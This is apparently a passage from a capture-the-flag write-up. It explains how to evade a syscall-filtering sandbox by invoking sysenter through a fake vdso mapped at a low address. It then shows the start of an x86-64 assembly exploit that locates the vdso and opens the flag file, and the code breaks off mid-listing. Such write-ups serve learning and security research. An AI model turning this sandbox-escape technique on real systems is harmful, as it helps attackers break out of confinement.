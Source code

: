 The problem is that we don"t have `int 0x80`instruction in vdso, so we will use the `sysenter`instruction that is doing a 32 bits syscall , like `int 0x80`

The only problem with `sysenter`instruction, it's that it will return in `vdso`, at the address stored in one `MSR`register.

That will be a 32 bits address, but it is not mapped because the elf file was a 64bit executable, and his vdso is mapped in high memory above the 4GB limit.

So the trick we used, was to `mmap` our executable file at the low 32bit value of vdso, that we can calculate from the `vdso`stored in stack. And call mmap syscall with the function `sysenter`

The function will `mmap`our executable at the place where the 32 bits `vdso`should be, and will return in it thinking that it is `vdso`.

Then once our fake `vdso`is mapped, we can use `sysenter` freely as `int 0x80`replacement, and call `read`on the filedescriptor 4 of the flag, and  `write`the flag content to `stdout`.

Then at the end we will execute `exit`syscall with the return value of  `137` , that the `server.py`script expect, and it will dump the flag.

------

### 4 - The exploit

```assembly
[bits 64]

global start
section .text exec
start: 
; find vdso
loop1:  pop rax
        cmp rax,0x21
        jne loop1
        pop rsi
	; hardcode syscall/ret offset in vdso
	lea rbx,[rsi+0xc7b]	; store vdso syscall address in rbx

; copy hash name to address 0x31337
	mov edi,0x31337
	mov rsi,[rsp+0x118]
	cld
cpy1:	lodsb
	stosb
	test al,al
	jne cpy1

; open hash file --> fd = 3
	mov edi,0x31337
	xor rsi,rsi
	mov eax,2
	call rbx

; copy 'flag' to address 0x31337
        mov edi,0x31337
        lea rsi,[fname1]
	lodsq
	mov [rdi],rax

; open flag --> fd = 4
        xor rsi,rsi
        mov eax,2
        call rbx

	; keep low part of vdso
	sub ebx,0x1000
```
